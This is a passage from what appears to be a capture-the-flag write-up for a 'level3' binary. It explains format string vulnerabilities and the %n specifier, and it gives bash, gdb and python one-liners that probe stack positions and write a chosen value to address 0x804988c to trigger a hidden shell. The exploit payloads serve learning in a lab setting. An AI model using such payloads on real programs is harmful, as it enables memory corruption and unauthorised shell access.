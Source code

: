 ### Key Learning Points:
1. **Format string vulnerabilities** allow reading and writing arbitrary memory
2. **%n format specifier** writes the number of characters printed to memory address
3. **Stack position analysis** required to target correct memory locations
4. **Precision required** - exact character count needed for correct value
5. **Conditional exploitation** - triggering hidden functionality via memory modification
6. **Interactive shell maintenance** using `(exploit; cat)` pattern

## Verification Steps

### Alternative Discovery Methods:

**Method 1: Systematic Stack Analysis**
```bash
# Find exact stack layout
for i in {1..20}; do
  echo "Position $i:"
  python -c "print 'AAAA%${i}\$x'" | ./level3
done
```

**Method 2: Memory Examination**
```bash
(gdb) break *0x080484da  # Break at memory load
(gdb) run
# Input format string
(gdb) x/x 0x804988c     # Examine target memory before
(gdb) continue
(gdb) x/x 0x804988c     # Examine target memory after
```

**Method 3: Format String Testing**
```bash
# Test different character counts
python -c 'print "\x8c\x98\x04\x08" + "%63c%4$n"' | ./level3  # 67 total
python -c 'print "\x8c\x98\x04\x08" + "%60c%4$n"' | ./level3  # 64 total ✓
python -c 'print "\x8c\x98\x04\x08" + "%59c%4$n"' | ./level3  # 63 total
```

The solution demonstrates **format string exploitation** - a powerful technique that allows reading arbitrary memory and writing controlled values to specific addresses, enabling conditional code path activation.